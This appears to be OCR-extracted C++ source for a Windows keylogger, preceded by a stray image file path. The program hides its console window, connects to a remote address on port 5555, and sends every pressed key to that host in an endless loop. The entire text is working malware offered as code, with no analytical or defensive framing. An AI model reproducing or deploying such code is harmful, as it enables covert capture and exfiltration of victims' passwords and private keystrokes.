 #define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_addr.s_addr = inet_addr("10.10.15.2");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);

    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) & 0x8000) {
                char buffer[2];
                buffer[0] = KEY;
                send(server, buffer, sizeof(buffer), 0);
            }
        }
    }

    closesocket(server);
    WSACleanup();
}